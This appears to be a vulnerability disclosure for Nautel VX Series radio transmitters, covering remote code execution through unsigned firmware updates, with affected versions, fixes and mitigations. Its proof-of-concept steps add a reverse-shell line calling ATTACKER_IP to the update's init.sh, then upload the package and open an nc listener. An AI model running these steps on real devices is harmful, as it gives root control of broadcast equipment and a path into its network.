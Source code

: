 # Nautel VX Series Remote Code Execution (RCE) Vulnerability

## Description

The Nautel VX Series transmitters (firmware versions VX_SW_6.4.0 and below) contain a remote code execution (RCE) vulnerability in the firmware update process. Attackers can download the official update package, modify the included `init.sh` script to include malicious commands, and re-upload it to the `/#/software/upgrades` endpoint. Upon execution, the attack grants root access to the device.  

This vulnerability arises due to the **lack of digital signature verification** on uploaded firmware packages.  

## Vendor Information

- **Vendor**: Nautel  
- **Vendor Homepage**: [https://www.nautel.com/](https://www.nautel.com/)  

## Affected Products

- **Product**: Nautel VX Series  
- **Firmware/Software Versions Affected**:
  - VX_SW_6.4.0  
  - VX_SW_6.3.2  
  - VX_SW_6.3.1  
  - VX_SW_6.3.0  
  - VX_SW_6.1.1  
  - VX_SW_6.1.0  
  - VX_SW_6.0.3  

## Vulnerable Endpoint

- **Web Interface Software Update Page**:  
http://<target-ip>/#/software/upgrades


## Attack Type

- **Type**: Remote Code Execution (RCE)  
- **Classification**: Unauthorized Privilege Escalation via Software Update Manipulation  

## Impact

- **Severity**: Critical  
- **Description**:  
The Nautel VX Series transmitters contain an **unauthenticated remote code execution (RCE) vulnerability** in the software upgrade process. An attacker can modify firmware update files before uploading them to the device, leading to remote code execution with **root privileges**.  

By exploiting the `/#/software/upgrades` endpoint, an attacker can:
1. Download a legitimate update package (`.tgz`) from:
   ```
   http://www3.nautel.com/pub/VX_Series/
   ```
2. Extract and modify the `init.sh` script inside the package to include a reverse shell payload.  
3. Recompress and upload the malicious firmware to the transmitter via `/#/software/upgrades`.  
4. Initiate the upgrade process, which executes `init.sh`, granting **root-level shell access** to the attacker.  

## Affected Components

- **Firmware Update System** (`/#/software/upgrades`)  
- **Lack of Signature Verification** on Software Updates  

## Attack Vector

- **Access Method**: Remote unauthorized firmware modification  
- **Authentication Requirement**: None (if update process lacks validation)  
- **Exploit Complexity**: Low  

---

## Proof of Concept (PoC)

### Steps to Reproduce:

1. **Download the official VX Series firmware update (`.tgz`) from:**
http://www3.nautel.com/pub/VX_Series/
2. **Extract the `.tgz` archive and locate `init.sh`:**
```bash
tar -xvf VX_update_6.4.0.tgz
cd VX_update_6.4.0/
```
3. **Modify init.sh to include a reverse shell payload:**
   ```bash
   echo "bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1" >> init.sh
   ```
4. **Repack the firmware update:**
   ```bash
   tar -cvf VX_update_malicious.tgz *
   ```
5. **Upload the modified firmware to the transmitter's web interface:**
   - ** Navigate to:**

          http://<target-ip>/#/software/upgrades

    - ** Select and upload VX_update_malicious.tgz.**

6. **UStart a listener on the attacker's machine:**U
    ```bash
    nc -lvnp 4444
    ```

7. **UInitiate the update process on the transmitter.**
8. **UReceive a reverse shell with root access.**

---
# PoC Video

https://github.com/user-attachments/assets/0da69449-f252-46eb-a348-2de31e269ba5 

---

# Vulnerability Type Information

- **Vulnerability Type**: Remote Code Execution via Unauthorized Firmware Modification  
- **CWE-ID**: [CWE-347 - Improper Verification of Cryptographic Signature](https://cwe.mitre.org/data/definitions/347.html)  
- **Definition**: The firmware update mechanism fails to validate digital signatures, allowing attackers to upload and execute modified firmware with arbitrary code.  

---

# Impact Information

### **Impact Type:**
- **Remote Code Execution (RCE)**: Attackers gain full control over the transmitter.  
- **Privilege Escalation**: The malicious script executes with **root privileges**.  
- **Network Compromise**: Attackers can pivot into internal networks.  
- **Broadcast Disruption**: Unauthorized firmware updates can **shut down** or alter transmission parameters.  

---

# Suggested Fixes

### **1. Implement Digital Signature Verification on Firmware Updates**
   - Ensure all update packages are **cryptographically signed** and verified before execution.  

### **2. Restrict Software Upload Access to Authorized Users Only**
   - Require **multi-factor authentication (MFA)** before allowing firmware updates.  

### **3. Implement Integrity Checks on Uploaded Files**
   - Use **SHA256 hash validation** to detect modified firmware before installation.  

### **4. Limit Execution Permissions on Update Scripts**
   - Prevent arbitrary execution of scripts in firmware update packages.  

---

# Mitigation & Workarounds

Until an official patch is released, **administrators should**:

- **Disable remote software updates** unless verified through **Nautel’s official process**.  
- **Monitor firmware upload logs** for suspicious activity.  
- **Use network firewalls** to block unauthorized access to the update endpoint.  

---

# Disclaimer

This report is for **educational and security research purposes only**. Unauthorized access or exploitation of any system without proper authorization **violates cybersecurity laws** and may result in legal consequences.  

---

# References

- [Nautel VX Series Official Page](https://www.nautel.com/)  
- [CWE-347: Improper Verification of Cryptographic Signature](https://cwe.mitre.org/data/definitions/347.html)  

